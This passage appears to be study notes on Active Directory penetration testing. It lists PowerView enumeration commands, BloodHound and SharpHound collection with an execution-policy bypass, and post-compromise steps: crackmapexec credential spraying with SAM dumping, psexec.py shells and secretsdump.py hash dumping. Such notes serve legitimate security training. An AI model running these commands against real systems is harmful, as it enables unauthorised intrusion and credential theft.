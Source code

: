- `Get-NetComputer` it lists out all the computers in this Domain
- `Get-NetComputer -FullData` maybe a little too much information, but it works
- `Get-NetComputer -FullData | select OperatingSystem` pulling down specific information on the Operating System, what are the server and user machines
- `Get-NetGroup` check for any interesting groups for us
- `Get-NetGroup -GroupName "Domain Admins"` sorting it out, groups for Domain Admins
- `Get-NetGroup -GroupName "Admin"` to see what admins are out there
- `Get-NetGroupMember -GroupName "Domain Admins"` will list out all our domain admins
- `Invoke-ShareFinder` a tool for finding shares, where and what is being shared
- `Get-NetGPO` shows all the group policies
- `Get-NetGPO | select displayname, whenchanged` what is going on in the network and when was it changed to learn more about the system's policies

### Domain enumeration with Bloodhound

- once we are on the network, it downloads the data of the AD and helps us to visualize it
- `apt install bloodhound` to install it on kali
- setting it up: `neo4j console`
- open it up (see link in terminal) and change default credentials from neo4j:neo4j
- in tty: `bloodhound` then log in in the opened up browser
- let's pull some data with an injester first, using the **[invoke sharphound from Github repo](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)**
- Invoke SharpHound goes on to the target Windows machine, so it can collect data
- run it, first PowerShell `powershell -ep bypass` than SharpHound with `. .\SharpHound.ps1`
- `Invoke-BloodHound -CollectionMethod All -Domain domain.local -ZipFileName file.zip`
- copy the generated file back to kali, where we will import it and review the details
- on kali upload it into Bloodhound opened browser

## Post compromise attacks

- these attacks require to have compromised the system already and have some credentials

### Pass the password attack with crackmapexec

- passing the hash around with ***crackmapexec.py*** which will throw around the captured hash and see where it sticks
- install it on kali `apt install crackmapexec`
- usage `crackmapexec --help` to get help, typically we provide a username, domain and password for now
- `crackmapexec smb <target network IP/24> -u <username> -d <domain.local> -p <password>`
- `crackmapexec smb <target network IP/24> -u <username> -d <domain.local> -p <password> --sam` it will try to dump the SAM file (short for SAM=Security Account Manager)

### Getting a shell with psexec.py

- getting a shell: `psexec.py domain/username:password@<domain_target_IP>`
- password spraying is NOT recommended on Domains becaue if you get many failed login attempts you can lock this user out of the Domain, on local accounts it's OK

### Dumping hashes with secretsdump

- it is also part of the Impacket Github repo
- `secretsdump.py domain/username:password@<domain_target_IP>` dumps the hashes for us
